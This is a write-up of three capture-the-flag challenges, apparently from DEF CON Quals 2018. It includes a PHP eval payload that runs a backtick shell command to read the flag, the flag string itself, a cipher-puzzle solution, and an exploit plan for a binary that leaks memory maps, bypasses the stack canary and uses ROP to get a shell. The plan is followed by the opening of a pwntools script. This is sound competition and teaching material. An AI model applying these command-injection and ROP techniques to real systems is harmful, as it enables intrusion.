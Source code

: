 
## Guest Chefs

### PHP Eval White-List

- run ``` die("`../flag`"); ```
- `OOO{Fortunately_php_has_some_rock_solid_defense_in_depth_mecanisms,_so-everything_is_fine.}`

### ghettohackers: Throwback

The interval of each '!' is the index of alphabet.

The text is `Anyo!e!howouldsacrificepo!icyforexecu!!onspeedthink!securityisacomm!ditytop!urintoasy!tem!`. First we try to find all letters on '!' and get `nwltisoos`.
We try lots of possible decryptions like XOR, ord(i) - ord('!'), letters reorganization, affine cipher, Atbash cipher, and many classical ciphers but all failed.
Finally, we notice that the place of '!' maybe a hint. We calculate the interval of each '!' and got `[4, 1, 18, 11, 0, 12, 15, 7, 9, 3, 0]`. We think these numbers are the index of alphabet (e.g. `4` is `d`), and write a code to print the answer.



```
ori = 'Anyo!e!howouldsacrificepo!icyforexecu!!onspeedthink!securityisacomm!ditytop!urintoasy!tem!'
sp = ori.split('!')
print repr(''.join(chr(97 + len(s) - 1) for s in sp))
```

### ddtek: Preview

#### reverse

* Use `IDA pro` to decompile the binary.
* At first galance, we cannot get any useful information.
* Use `gdb` and find out that it will mmap a new area for `real program`
* There is a function which will do some xor stuff on `0x602000` and mmap an memory area for it. That is real program
* In `gdb`, you can do this 
`dump binary memory result.bin 0x602000 0x605000`

* Now we have the real program.

#### exploit
1. Use the string "HEAL /proc/self/maps" to get the code address and /lib/x86_64-linux-gnu/ld-2.23.so address
2. canary is combined by code address and /lib/x86_64-linux-gnu/ld-2.23.so address 
3. make the program stack overflow, bypass the canary, and use ROP to get shell

```python=
from pwn import *
import sys
import time
import random
host = 'cee810fa.quals2018.oooverflow.io'
port = 31337

binary = "./preview"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

```